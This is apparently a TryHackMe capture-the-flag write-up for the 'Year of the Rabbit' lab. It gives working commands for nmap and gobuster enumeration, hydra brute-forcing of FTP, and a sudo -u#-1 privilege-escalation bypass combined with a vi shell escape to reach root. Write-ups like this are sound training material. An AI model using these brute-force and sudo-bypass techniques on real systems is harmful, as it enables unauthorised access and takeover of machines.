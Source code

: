 ```yaml
---
title: "TryHackMe - Year of the Rabbit"
author: Nasrallah
description: ""
date: 2022-09-07 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, hydra, bruteforce, sudo, cve]
img_path: /assets/img/tryhackme/yearoftherabbit
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Year of the Rabbit](https://tryhackme.com/room/yearoftherabbit) from [TryHackMe](https://tryhackme.com). The target is running a web server where we find an image that contains a list of passwords that we use to brute force the ftp server. After finding the right password we login to find a file that has some weird text, we decode that to get ssh credentials. Once we're in the target machine we find a secret file with on of the user's password. After switching to that user we exploit a sudo cve to get root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.243.82
Host is up (0.086s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are 3 open ports, 21 running vsftp, 22 running OpenSSH, and 80 running Apache web server.

### Web

Navigate to the web page.

![](1.png)

It's the default page for apache.

#### Gobuster

Let's run a directory scan.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.243.82/  | tee scans/gobuster                                                 130 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.243.82/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/01 04:54:20 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> http://10.10.243.82/assets/]
/index.html           (Status: 200) [Size: 7853]                                 
/server-status        (Status: 403) [Size: 277]                                  
                                                                                 
===============================================================

```

We found **/assets/** directory, let's look at it.

![](2.png)

We got a rick roll video and a css file. Let's check the **style.css** file.

![](3.png)

We found a secret page, but when we browse to it, it redirects us to rick roll youtube video.

Next i used curl to request the page and got this.

![](4.png)

Got the real hidden directory.

![](5.png)

There is an image there, we can download it to our machine with `wget http://10.10.243.82/WExYY2Cv-qU/Hot_Babe.png`

If we run `strings` with the image, we find the following.

![](6.png)

We a username for ftp and a list of passwords.

We either copy the list manually or use the following command like i did.

```bash
strings Hot_Babe.png | tail -n 82 > pass.txt
```

![](7.png)


## **Foothold**

### Hydra

Now let's use `hydra` to brute force the ftp server.

```bash
hydra -l ftpuser -P pass.txt 10.10.243.82 ftp
```

![](8.png)

### FTP

Let's login to the ftp server.

![](9.png)

Found some a text file and downloaded it with `get {filename}`. Let's see what it has.

![](10.png)

From my experience, i know this is `brainfuck` programming language. Let's go to [dcode](https://www.dcode.fr/brainfuck-language) and execute this script.

![](11.png)

Great! We got hte credentials. Let's login with ssh.

![](12.png)

## **Privilege Escalation**

When we logged in, we got the following message.

```text
"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
```

There is a secret place, i used the command `locate s3cr3t` and got this.

![](13.png)

We found the secret place. Let's print the secret file.

![](14.png)

Got the password for that user. Let's switch to `Gwendoline`.

![](15.png)

Let's check our privileges with `sudo -l`.

![](16.png)

We can execute `vi` but not as root. Let's check `sudo`'s version.

```terminal
gwendoline@year-of-the-rabbit:~$ sudo -V
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
```

The version of sudo is 1.8.10p3, and if we search for any exploits in this version we find [this](https://www.exploit-db.com/exploits/47502).

![](18.png)

We see if we add `-u#-1` to our sudo command we can execute vi as root, so let's go check [GTFObins](https://gtfobins.github.io/gtfobins/vi/#shell).

![](17.png)

We're going to use the following commands to get a root shell.

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

:set shell=/bin/sh

:shell
```

![](19.png)

Got the root shell.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
